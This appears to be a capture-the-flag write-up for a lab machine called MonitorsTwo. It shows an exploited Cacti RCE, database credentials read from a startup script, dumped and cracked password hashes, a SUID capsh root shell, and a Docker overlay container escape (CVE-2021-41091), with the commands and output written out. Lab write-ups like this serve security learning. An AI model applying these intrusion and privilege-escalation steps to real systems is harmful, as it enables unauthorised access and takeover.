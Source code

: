 # MonitorsTwo

## Gaining Access

Nmap scan:

```
$ nmap -p- --min-rate 3000 10.129.78.86
Starting Nmap 7.93 ( https://nmap.org ) at 2023-04-29 23:41 EDT
Nmap scan report for 10.129.78.86
Host is up (0.16s latency).
Not shown: 65532 closed tcp ports (conn-refused)
PORT      STATE    SERVICE
22/tcp    open     ssh
80/tcp    open     http
```

Another web-based exploit.&#x20;

### Cacti

When we check the web port, we see that it is running Cacti.

<figure><img src="../../.gitbook/assets/image (641).png" alt=""><figcaption></figcaption></figure>

The version run is actually vulnerable to one unauthenticated RCE exploit, and there are tons of PoCs online to use.

{% embed url="https://github.com/ariyaadinatha/cacti-cve-2022-46169-exploit" %}

This has to do with the polling of Cacti, and we just need to modify the exploit to point to our own IP address to get a shell.

<figure><img src="../../.gitbook/assets/image (42) (9).png" alt=""><figcaption></figcaption></figure>

## Privilege Escalation

We got a shell on the docker, so the next step is to escape it.&#x20;

### MySQL Passwords

Within the `/` directory, we can find a bash script:

```
www-data@50bca5e748b0:/$ ls -la
ls -la
total 84
drwxr-xr-x   1 root root 4096 Mar 21 10:49 .
drwxr-xr-x   1 root root 4096 Mar 21 10:49 ..
-rwxr-xr-x   1 root root    0 Mar 21 10:49 .dockerenv
drwxr-xr-x   1 root root 4096 Mar 22 13:21 bin
drwxr-xr-x   2 root root 4096 Mar 22 13:21 boot
drwxr-xr-x   5 root root  340 Apr 29 22:40 dev
-rw-r--r--   1 root root  648 Jan  5 11:37 entrypoint.sh
```

Here's the content of it:

```bash
#!/bin/bash
set -ex

wait-for-it db:3306 -t 300 -- echo "database is connected"
if [[ ! $(mysql --host=db --user=root --password=root cacti -e "show tables") =~ "automation_devices" ]]; then
    mysql --host=db --user=root --password=root cacti < /var/www/html/cacti.sql
    mysql --host=db --user=root --password=root cacti -e "UPDATE user_auth SET must_change_password='' WHERE username = 'admin'"
    mysql --host=db --user=root --password=root cacti -e "SET GLOBAL time_zone = 'UTC'"
fi

chown www-data:www-data -R /var/www/html
# first arg is `-f` or `--some-option`
if [ "${1#-}" != "$1" ]; then
        set -- apache2-foreground "$@"
fi

exec "$@"
```

So we have a database password and we can enumerate the database. This docker doesn't have `python`, so we cannot spawn a shell via `pty`. Instead, we have to use the `-e` flag to enumerate the database since we don't have a proper shell.

```
www-data@50bca5e748b0:/var/www/html$ mysql --host=db --user=root --password=root cacti -e "show databases" 
<user=root --password=root cacti -e "show databases"
Database
information_schema
cacti
mysql
performance_schema
sys
```

We can extract the hashed password for the users within the database:

```
www-data@50bca5e748b0:/var/www/html$ mysql --host=db --user=root --password=root cacti -e "select * from user_auth"
admin   $2y$10$IhEA.Og8vrvwueM7VEDkUes3pwc3zaBbQ/iuqMft/llx8utpR1hjC
marcus  $2y$10$vcrYth5YcCLlZaPDj6PwqOYTw68W1.3WeKlBn70JonsdW/MhFYK4C
```

I ran `john` on the hashes, and managed to crack one of them to get `funkymonkey`.

![](<../../.gitbook/assets/image (9) (6) (4).png>)

With this and a username, we can `ssh` into the machine as `marcus`. Then, grab the user flag.

### CVE-2021-41091 --> Root Shell

Within the `/var/mail` folder, there's some mail for `marcus`:

{% code overflow="wrap" %}
```
marcus@monitorstwo:/var/mail$ cat marcus 
From: administrator@monitorstwo.htb
To: all@monitorstwo.htb
Subject: Security Bulletin - Three Vulnerabilities to be Aware Of

Dear all,

We would like to bring to your attention three vulnerabilities that have been recently discovered and should be addressed as soon as possible.

CVE-2021-33033: This vulnerability affects the Linux kernel before 5.11.14 and is related to the CIPSO and CALIPSO refcounting for the DOI definitions. Attackers can exploit this use-after-free issue to write arbitrary values. Please update your kernel to version 5.11.14 or later to address this vulnerability.

CVE-2020-25706: This cross-site scripting (XSS) vulnerability affects Cacti 1.2.13 and occurs due to improper escaping of error messages during template import previews in the xml_path field. This could allow an attacker to inject malicious code into the webpage, potentially resulting in the theft of sensitive data or session hijacking. Please upgrade to Cacti version 1.2.14 or later to address this vulnerability.

CVE-2021-41091: This vulnerability affects Moby, an open-source project created by Docker for software containerization. Attackers could exploit this vulnerability by traversing directory contents and executing programs on the data directory with insufficiently restricted permissions. The bug has been fixed in Moby (Docker Engine) version 20.10.9, and users should update to this version as soon as possible. Please note that running containers should be stopped and restarted for the permissions to be fixed.

We encourage you to take the necessary steps to address these vulnerabilities promptly to avoid any potential security breaches. If you have any questions or concerns, please do not hesitate to contact our IT department.

Best regards,

Administrator
CISO
Monitor Two
Security Team
```
{% endcode %}

The first 2 vulnerabilities are not relevant, but the last one was rather interesting.&#x20;

{% embed url="https://nvd.nist.gov/vuln/detail/CVE-2021-41091" %}

In short, it appears that when dockers are created, some of the SUID binaries are carried over. In that case, we can enumerate the SUID binaries on the machine and find these using LinPEAS:

```
[+] SUID - Check easy privesc, exploits and write perms                                                                    
[i] https://book.hacktricks.xyz/linux-unix/privilege-escalation#sudo-and-suid                                              
strace Not Found                                                                                                           
-rwsr-xr-x 1 root root 63K Feb  7  2020 /usr/bin/passwd  --->  Apple_Mac_OSX(03-2006)/Solaris_8/9(12-2004)/SPARC_8/9/Sun_Solaris_2.3_to_2.5.1(02-1997)                                                                                                
-rwsr-xr-x 1 root root 44K Feb  7  2020 /usr/bin/newgrp  --->  HP-UX_10.20
-rwsr-xr-x 1 root root 87K Feb  7  2020 /usr/bin/gpasswd
-rwsr-xr-x 1 root root 52K Feb  7  2020 /usr/bin/chsh
-rwsr-xr-x 1 root root 58K Feb  7  2020 /usr/bin/chfn  --->  SuSE_9.3/10
-rwsr-xr-x 1 root root 31K Oct 14  2020 /sbin/capsh
-rwsr-xr-x 1 root root 35K Jan 20  2022 /bin/umount  --->  BSD/Linux(08-1996)
-rwsr-xr-x 1 root root 71K Jan 20  2022 /bin/su
-rwsr-xr-x 1 root root 55K Jan 20  2022 /bin/mount  --->  Apple_Mac_OSX(Lion)_Kernel_xnu-1699.32.7_except_xnu-1699.24.8
```

`capsh` has the SUID binary set, which is not the norm. Based on GTFOBins, we can run this command to spawn a root shell:

```
www-data@50bca5e748b0:/var/www/html$ capsh --gid=0 --uid=0 --
capsh --gid=0 --uid=0 --
id
uid=0(root) gid=0(root) groups=0(root),33(www-data)
```

Great! Now we are root on the docker. Now, we can find the mounted point of this docker from the main machine, and we can create a `bash` SUID binary to get a shell.&#x20;

First we need to find the mount point using `df`:

```
marcus@monitorstwo:/var/lib/docker$ df
Filesystem     1K-blocks    Used Available Use% Mounted on
udev             1966928       0   1966928   0% /dev
tmpfs             402608    1232    401376   1% /run
/dev/sda2        7054840 4451424   2513656  64% /
tmpfs            2013040       0   2013040   0% /dev/shm
tmpfs               5120       0      5120   0% /run/lock
tmpfs            2013040       0   2013040   0% /sys/fs/cgroup
overlay          7054840 4451424   2513656  64% /var/lib/docker/overlay2/4ec09ecfa6f3a290dc6b247d7f4ff71a398d4f17060cdaf065e8bb83007effec/merged
shm                65536       0     65536   0% /var/lib/docker/containers/e2378324fced58e8166b82ec842ae45961417b4195aade5113fdc9c6397edc69/mounts/shm
overlay          7054840 4451424   2513656  64% /var/lib/docker/overlay2/c41d5854e43bd996e128d647cb526b73d04c9ad6325201c85f73fdba372cb2f1/merged
shm                65536       0     65536   0% /var/lib/docker/containers/50bca5e748b0e547d000ecb8a4f889ee644a92f743e129e52f7a37af6c62e51e/mounts/shm
```

At`/var/lib/docker/overlay2/c41d5854e43bd996e128d647cb526b73d04c9ad6325201c85f73fdba372cb2f1/merged` would bring us to the file system of the docker container. Then, using our root shell on docker, we can just use `chmod u+s /bin/bash` to spawn a SUID binary for the main machine to use.&#x20;

This works because of the CVE allowing for us to create SUID binaries across machines.&#x20;

We can see the SUID `bash` binary here:

<figure><img src="../../.gitbook/assets/image (625).png" alt=""><figcaption></figcaption></figure>

We can get a root shell easily:

```
marcus@monitorstwo:/var/lib/docker/overlay2/c41d5854e43bd996e128d647cb526b73d04c9ad6325201c85f73fdba372cb2f1/merged/bin$ /var/lib/docker/overlay2/c41d5854e43bd996e128d647cb526b73d04c9ad6325201c85f73fdba372cb2f1/merged/bin/bash -p 
bash-5.1# id
uid=1000(marcus) gid=1000(marcus) euid=0(root) groups=1000(marcus)
```

Rooted!
